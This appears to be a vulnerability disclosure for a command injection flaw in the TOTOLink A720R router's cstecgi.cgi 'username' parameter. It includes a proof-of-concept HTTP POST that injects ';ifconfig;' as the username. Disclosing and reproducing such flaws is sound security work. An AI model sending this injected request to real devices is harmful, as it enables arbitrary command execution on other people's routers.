

# TOTOLink A720R V4.1.5cu.532_B20210610 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=14&ids=36

### Product Information

TOTOLink A720R V4.1.5cu.532_B20210610 router, the latest version of simulation overview：



## Vulnerability details


TOTOLINK A720R was found to contain a command insertion vulnerability in cstecgi.This vulnerability allows an attacker to execute arbitrary commands through the "username" parameter.


We can see that the operating system will get "username" without filtering and inserting it into the strings "openvpn cert build_user" and "gz". Therefore, if we can control "username", it can be a command injection.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi?exportOvpn=&type=user&username=;ifconfig;&filetype=gz HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.1/login.html
Content-Length: 0
Origin: http://192.168.0.1
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache
```


 The above figure shows the POC attack effect 

